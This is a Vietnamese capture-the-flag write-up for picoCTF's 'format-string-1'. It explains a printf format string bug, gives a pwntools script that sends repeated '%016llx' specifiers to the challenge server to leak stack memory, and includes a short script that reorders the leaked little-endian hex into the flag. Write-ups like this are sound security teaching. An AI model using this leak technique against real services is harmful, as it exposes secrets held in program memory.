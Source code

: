 # format-string-1
Đề bài cung cấp file binary và source code luôn. <br>
Kiểm tra một số thông tin cơ bản về binary. <br>
![alt text](image-1.png)
<br>
![alt text](image-2.png)
<br>

Ta kiểm tra source code thì thấy lỗi `format string` khi chương trình in ra `buf`: <br>
![alt text](image-3.png)
<br>
Tóm tắt về cách chương trình này hoạt động. Đầu tiên nó mở file `secret-item-1.txt`, đọc 64 byte trong đó và lưu vào `secret1`. Sau đó nó đọc 64 byte trong `flag.txt` và lưu vào `flag`. Cuối cùng, đọc 64 byte trong `secret-item-2.txt` và lưu vào `secret2`. Lỗi format string xảy ra khi chương trình cố in ra buf bằng `printf(buf)` mà không có tham số format. Tận dụng lỗi này, ta sẽ in ra `flag`.
<br>

_payload.py_
```python
from pwn import *

host = 'mimas.picoctf.net'
port = 62687
p = remote(host, port)
# p = process("./format-string-1")

payload = b"%016llx," * 50

p.sendline(payload)
p.interactive()

```
![alt text](image-4.png)
<br>

Ta đã biết rằng flag bị kẹp giữa secret1 và secret2. Ta giải mã các giá trị hex này xem sao. Sử dụng `CyberChef`. <br>
Phát hiện một dãy giá trị có vẻ là flag. <br>
![alt text](image-5.png)
<br>
Do ta đang thao tác trên file 64bit, little endian (xem thông tin file phía trên). Nên cứ mỗi 8 ký tự, ta đảo ngược lại. Do lười nên tôi viết nhanh một script python làm điều này.
```python
flag_rev = '{FTCocip5_14m1n44x4_31y746_g41f_}611772'
flag = ''

for i in range(0, len(flag_rev), 8):
    chunk = flag_rev[i:i+8]
    rev_chunk = chunk[::-1]
    flag += rev_chunk

print(flag)
```
May mắn ta đã lấy được flag: <br>
![alt text](image-6.png)
